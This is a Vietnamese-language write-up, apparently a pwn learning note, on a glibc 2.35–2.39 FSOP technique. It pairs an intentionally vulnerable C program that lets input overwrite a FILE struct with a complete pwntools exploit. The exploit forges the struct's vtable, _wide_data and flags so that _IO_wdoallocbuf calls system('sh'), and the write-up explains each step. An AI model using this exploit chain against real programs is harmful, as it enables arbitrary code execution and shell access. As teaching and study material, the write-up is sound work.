

Lấy cảm hứng từ 2 link [this](https://aneii11.github.io/p/fsop-code-execution/#to-do) and [this](https://niftic.ca/posts/fsop/#_io_wdoallocbuf43).
Tiếp nối phần đầu nhưng với điều kiện restrict hơn.
Test thành công trên `glibc 2.35`, `2.38`, `2.39` (same code path).
# Scenery

Có khả năng ghi đè file struct nào đó của chương trình, required file pointer address (thường thì nếu dùng `fopen` thì file struct sẽ được init trên heap -> heap leak vẫn thỏa mãn).

Có thể overwrite lên file struct đó ít nhất `0xe8 bytes`.

Có libc leak.

Ở phiên bản không có file pointer, thì cân nhắc target `stdout`, update ở readme3.

# POC

## Demo code C

Chỉ cần compile theo hướng dẫn của shogun (tùy theo glibc version):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char *buf;
    FILE *fp = fopen("/dev/null", "w");
    
    printf("libc leak: %p\n", stdout);

    printf("file pointer leak: %p\n", fp);

    printf("overwrite file struct: ");
    read(0, fp, 0xE8);

    buf = malloc(0x10);
    fwrite(buf, 1, 10, fp);

    return 0;
}
```

Cho libc leak và file pointer address, không có hàm `win` và size input bé hơn, mục đích là để merge 2 buffer vào thành một.

## Demo exploit

Compile trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 200
b *main + 243
b *_IO_wdoallocbuf
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

p.recvuntil(b"pointer leak: ")
fileptr = int(p.recvline(), 16)
print(hex(fileptr))

system = libc_base + libc.symbols['system']
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._lock = fileptr + 0x50
fp._wide_data = fileptr
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)

p.sendafter(b"struct: ", payload)

p.interactive()
```

<mark>Với các phiên bản khác chỉ cần thay đổi đoạn tính toán `libc_base`</mark>.

# Idea

Tương tự như trước, code path của exploit này vẫn là target `_IO_wfile_overflow` -> `_IO_wdoallocbuf` -> `_IO_WDOALLOCATE`. fake vtable và `_wide_data` về buffer mà mình kiểm soát.

## Call `_IO_wfile_overflow`

Exploit shift table đi sao cho thay vì gọi `_IO_new_file_xsputn` sẽ gọi `_IO_wfile_overflow`:

```
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
```

## Call `_IO_wdoallocbuf`

Exploit vẫn dùng flag như cũ, để bypass qua các `if` trong source code. Lợi dụng thêm 4 bytes sau của `flag` để tạo thành strings `???..??||sh\x00` thuận tiện cho việc exploit (I'll talk about this later) (có thể thay thành `???..??;sh;` vẫn được).

```
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
```

## Call `_IO_WDOALLOCATE`

After all requires are met, now let's see inside the function `_IO_wdoallocbuf`:


Our goals is to call `_IO_WDOALLOCATE (fp)` (as it will).


Khi thực hiện gọi hàm, chú ý đến 2 câu instructions này

```
mov    rax, qword ptr [rax + 0xe0]
call   qword ptr [rax + 0x68]
```


Khi nhìn trong debug, ta thấy `rax` trỏ vào `file pointer`. 2 intrustions kia thực hiện gọi hàm qua `_wide_data->_wide_vtable`

Đầu tiên sẽ gán `rax` = value được lưu `[rax + 0xe0]`, là giá trị mà exploit đã fake đằng sau `bytes(fp)`:

```
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)
```

Sau đó sẽ gọi hàm được lưu trong `[rax + 0x68]` hay chính xác hơn là ở `fileptr + 0x10`. Ở `fileptr + 0x10` là vị trí của `_IO_read_end`, thứ mà ta đã gán sang `system` address:

```
fp._IO_read_end = system
```



Và `rdi` lúc này cũng đang trỏ vào `flag`, thứ hiện có giá trị là:


Sẽ gọi `system("sh")` và thành công chiếm shell.

## Attention

Ta vẫn phải lưu ý điều kiện của giá trị `_lock`: trỏ vào vùng có write permission và có null value.
Sau một hồi debug, mình nhận thấy ở `_IO_backup_base` (offset `0x50`) thường có value 0, nên quyết định lấy giá trị này (thật ra nếu ta có thể ghi đè file struct thì đặt ở offset nào cũng thoải mái).

```
fp._lock = fileptr + 0x50
```

Tuy nhiên có thể đổi sang vùng khác để an toàn hơn (just in case), trên file struct nằm trên heap region thì nhiều vô kể, còn nếu nằm trên libc như `stdout` thì tùy cơ ứng biến.